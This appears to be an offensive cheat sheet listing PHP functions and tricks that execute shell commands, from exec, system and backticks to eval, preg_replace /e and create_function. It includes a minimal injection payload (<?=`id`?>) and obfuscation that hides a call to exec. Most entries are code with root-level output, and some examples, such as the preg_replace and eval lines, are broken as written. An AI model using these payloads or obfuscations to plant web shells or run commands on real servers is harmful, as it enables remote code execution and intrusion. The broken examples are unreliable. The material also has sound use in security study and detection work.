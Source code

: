 ## General note regarding PHP tags
```php
// this is a valid php tag
<?php phpinfo(); ?>
// this is equavalent to <?php echo phpinfo(); ?>
<?=phpinfo()?>
// this is the shortest payload i know to execute code
<?=`id`?>
```

## Bracketless Shell Execution: `Backtick`
```php
php > echo `id`;
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Exec` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > echo exec('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Passthru` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > passthru("id");
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Proc_open` (PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)
```php
# first, define this variable
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
# start execution
php > proc_open('id > /tmp/id_output.txt', $descriptorspec, $pipes);
# verifying the execution occured
php > passthru('cat /tmp/id_output.txt');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Shell_exec` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > echo shell_exec('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `System` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > system('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `pcntl_exec` (PHP 4 >= 4.2.0, PHP 5, PHP 7, PHP 8)
```php
php > pcntl_exec('/bin/bash', array('-c', 'id'));
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `popen` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > popen('id', 'w');
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Weird ways to execute PHP
```php
// ternary operator
1?`id`:1;
// some obfuscation: equivalent to exec
str_replace('z', 'e', 'zxzc')("id");
```

---

## PHP Execution: `Preg_replace` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > preg_replace('/.*/e', system('id') );
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
PHP Warning:  Uncaught ArgumentCountError: preg_replace() expects at least 3 arguments, 2 given in php shell code:1
Stack trace:
#0 php shell code(1): preg_replace()
#1 {main}
  thrown in php shell code on line 1
```

## PHP Execution: `Eval` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > eval(system('id'));
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
PHP Parse error:  syntax error, unexpected token "=" in php shell code(1) : eval()'d code on line 1
```

## PHP Execution: `Create_Function` (PHP < 8.0.0)
```php
php > $newfunc = create_function('$cmd', 'system($cmd);');
php > $newfunc('id');
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```